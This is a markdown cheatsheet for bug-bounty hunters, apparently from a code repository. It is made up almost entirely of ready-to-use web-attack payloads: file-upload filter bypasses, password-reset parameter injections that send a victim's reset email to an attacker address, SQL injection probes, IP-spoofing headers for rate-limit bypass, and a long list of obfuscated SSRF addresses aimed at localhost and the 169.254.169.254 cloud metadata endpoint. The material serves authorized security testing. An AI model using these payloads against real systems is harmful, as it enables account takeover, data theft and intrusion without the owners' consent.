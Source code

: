 # Bounty Hunter Cheatsheet
---

## File Upload

| Filename | Description |
|----------|-------------|
|.htaccess|htaccess rules|
|file.svg|svg for xss|
|file.SVg|case insensitive|
|file.png.svg|double extension|
|file.php%00.png|null byte|
|file.png' or '1'='1|sql injection|
|../../file.png|directory traversal|
|file.'svg|invalid extension|

## Password Reset

### Parameter payloads

| Payload | Description |
|----------|-------------|
|email=victim@xyz.tld&email=hacker@xyz.tld|double parameter|
|email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld|carbon copy parameter|
|email=victim@xyz.tld,hacker@xyz.tld|colon separator|
|email=victim@xyz.tld%20hacker@xyz.tld|space separator|
|email=victim@xyz.tld\|hacker@xyz.tld|pipe separator|
|email=victim|no domain or tld|
|email=victim@xyz|no tld|
|{"email":["victim@tld.xyz","hacker@tld.xyz"]}|json multiple email table|

### Related other cases

| Technique | Goal |
|----------|-------------|
|reset token modification|account takeover|
|body response token leak|account takeover|
|token guess or bruteforce (timestamp, userid)|account takeover|
|modify header host domain|host reflected in mail and steal token|

## SQL Injection

| Payload | Description |
|----------|-------------|
|/?q=1'|simple quote|
|/?q=1"|double quote|
|/?q=[1]|array value|
|/?q[]=1|array parameter|
|/?q=1\`|backquote|
|/?q=1\\ |escape backslash|
|/?q=1/\*'\*/|comment simple quote|
|/?q=1/\*!1111'\*/|comment simple quote|
|/?q=1'\|\|'asd'\|\|'|string concatenation|
|/?q=1' or '1'='1|or statement with quotes|
|/?q=1 or 1=1| or statement without quotes|
|/?q='or''='|or statement no spaces|

## CORS

```python
if isBlocked("evil.com"):
  try("target.network")
  try("target.computer")
```

## Recon


`site:http://ideone.com | site:http://codebeautify.org | site:http://codeshare.io | site:http://codepen.io | site:http://repl.it | site:http://justpaste.it | site:http://pastebin.com | site:http://jsfiddle.net | site:http://trello.com "$TARGET"`

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user
- Check reverse search in API
> GET /api/account?email=X

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

- Check if email links are in HTTP
- Check if old password is asked when changing password
